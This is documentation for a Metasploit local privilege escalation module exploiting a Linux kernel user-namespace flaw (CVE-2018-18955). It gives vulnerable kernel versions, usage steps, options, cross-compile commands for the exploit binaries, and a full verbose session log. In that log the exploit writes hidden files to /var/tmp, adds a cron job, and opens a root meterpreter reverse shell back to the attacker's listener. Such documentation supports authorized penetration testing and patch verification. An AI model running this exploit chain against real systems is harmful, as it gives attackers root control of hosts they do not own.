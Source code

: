 ## Description

  This module exploits a vulnerability in Linux kernels 4.15.x to 4.18.x
  prior to 4.18.19 and 4.19.x before 4.19.2 where broken uid/gid mappings
  between nested user namespaces and kernel uid/gid mappings allow
  elevation to root (CVE-2018-18955).

  The target system must have unprivileged user namespaces enabled and
  the newuidmap and newgidmap helpers installed (from uidmap package).


## Vulnerable Application

  This module has been tested successfully on:

  * Fedora Workstation 28 kernel 4.16.3-301.fc28.x86_64
  * Linux Mint 19 kernel 4.15.0-20-generic (x86_64)
  * Ubuntu Linux 18.04.1 LTS kernel 4.15.0-20-generic (x86_64)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/nested_namespace_idmap_limit_priv_esc`
  4. `set SESSION <SESSION>`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **WritableDir**

  A writable directory file system path. Must not be mounted `nosuid`. (default: `/var/tmp`)

  **COMPILE**

  Options: `Auto` `True` `False` (default: `Auto`)

  Whether the exploit should be live compiled with `gcc` on the target system,
  or uploaded as a pre-compiled binary.

  `Auto` will first determine if `gcc` is installed to compile live on the system,
  and fall back to uploading pre-compiled binaries.


## Compiled Executables
  
The module makes use of two pre-compiled exploit executables:

  * `subuid_shell`
  * `subshell`

These are used when `gcc` is not available on the target host for live compiling,
or `COMPILE` is set to `False`.

The executables were cross-compiled with [musl-cross](https://s3.amazonaws.com/muslcross/musl-cross-linux-6.tar.
  
```bash
./i486-linux-musl-gcc -o subshell.out -s -pie -static subshell.c 
./i486-linux-musl-gcc -o subuid_shell.out -s -pie -static subuid_shell.c 
```


## Scenarios

### Fedora Workstation 28 (verbose output)

  ```
  msf5 > use exploit/linux/local/nested_namespace_idmap_limit_priv_esc 
  msf5 exploit(linux/local/nested_namespace_idmap_limit_priv_esc) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
  msf5 exploit(linux/local/nested_namespace_idmap_limit_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/nested_namespace_idmap_limit_priv_esc) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf5 exploit(linux/local/nested_namespace_idmap_limit_priv_esc) > set verbose true
  verbose => true
  msf5 exploit(linux/local/nested_namespace_idmap_limit_priv_esc) > check

  [+] Unprivileged user namespaces are permitted
  [+] /usr/bin/newuidmap is set-uid
  [+] /usr/bin/newgidmap is set-uid
  [+] Kernel version 4.16.3-301.fc28.x86_64 appears to be vulnerable
  [*] The target appears to be vulnerable.
  msf5 exploit(linux/local/nested_namespace_idmap_limit_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [+] Unprivileged user namespaces are permitted
  [+] /usr/bin/newuidmap is set-uid
  [+] /usr/bin/newgidmap is set-uid
  [+] Kernel version 4.16.3-301.fc28.x86_64 appears to be vulnerable
  [+] gcc is installed
  [*] Live compiling exploit on system...
  [*] Writing '/var/tmp/.LOren.c' (6058 bytes) ...
  [*] Writing '/var/tmp/.C9dWgG.c' (1604 bytes) ...
  [*] Writing '/var/tmp/.6syapMd72' (367 bytes) ...
  [*] Adding cron job...
  [*] [.] starting
  [*] [.] setting up namespace
  [*] [~] done, namespace sandbox set up
  [*] [.] mapping subordinate ids
  [*] [.] subuid: 100000
  [*] [.] subgid: 100000
  [*] [~] done, mapped subordinate ids
  [*] [.] executing subshell
  [+] Success. Waiting for job to run (may take a minute)...
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (816260 bytes) to 172.16.191.137
  [*] Meterpreter session 2 opened (172.16.191.188:4444 -> 172.16.191.137:39150) at 2018-11-24 19:28:02 -0500

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : localhost.localdomain
  OS           : Fedora 28 (Linux 4.16.3-301.fc28.x86_64)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```

